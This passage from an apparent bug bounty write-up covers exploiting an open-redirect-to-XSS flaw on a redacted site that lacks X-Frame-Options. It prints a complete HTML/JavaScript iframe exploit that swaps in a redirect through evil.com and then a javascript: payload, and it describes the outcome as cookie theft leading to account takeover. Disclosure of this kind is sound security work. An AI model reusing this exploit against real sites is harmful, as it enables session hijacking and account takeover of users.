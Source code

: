 ## Exploitation

Now, the exploitation part here is to check whether the endpoint i.e: `https://redacted.com/redirect/javascript:alert(1)` has a X-FRAME OPTIONS enabled or not , I got lucky and yes this endpoint didn't had  X-FRAME OPTIONS enabled which means I can write a js code and host it on my website and further exploit this vulnerability :D Didn't get it? Let me briefly explain it.

So here's what I did wrote this javascript snippet and hosted the endpoint in an iframe on my server controlled by my Javascript code :D

```
html
<html>
	<head>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
        <title>Changing Pages... Please Wait</title>
    </head>
    <body>
        <iframe src="" name="frame" id="frame" width="100%" height="100%"></iframe>
        <script type="text/javascript">
            var frames = Array('https://redacted.com/#/redirect/https://@evil.com\\@www.redacted.com', 3,
                'https://redacted.com/#/redirect/javascript:alert(document.domain)', 37);
            var i = 0, len = frames.length;
            function ChangeSrc()
            {
            document.getElementById('frame').src = frames[i++];
            if (i >= len) return; // no more changing
            setTimeout('ChangeSrc()', (frames[i++]*1000));
            }
            window.onload = ChangeSrc();
        </script>
    </body>
</html>
```

So basically the vulnerability will now take advantage of the missing X-Frame-Options header that allows any page to load in an iframe. Once the page is loaded into an iframe, we call the `ChangeSrc()` function that replaces the valid URL `https://redacted.com/#/redirect/https://@evil.com\\@www.redacted.com` with a vulnerable URL which is `https://redacted.com/#/redirect/javascript:alert(document.cookie)`. Since there is no server side interaction involved, and the URL is replaced after the page is loaded, upon clicking the continue button, we can see that the XSS payload get's fired with the user's cookie (As you can see in the below image)

<img width="1165" alt="Screen Shot 2021-01-24 at 11 05 32 PM" src="https://user-images.githubusercontent.com/65326024/105660289-b2a30480-5e98-11eb-8aef-cc9dcf71f632.png">
  
  
Now, this creates an impact in a way which means when an Authenticated user visits my hosted server his/ her Authenticated cookie will pop up and will get sent to my server which means Account Takeover of any user of redacted.com with users one click :D

If you have any questions, ping me at [@ArmanSameer95](https://twitter.com/ArmanSameer95)

Thanks for reading, have a great rest of your day/ night!
 
 
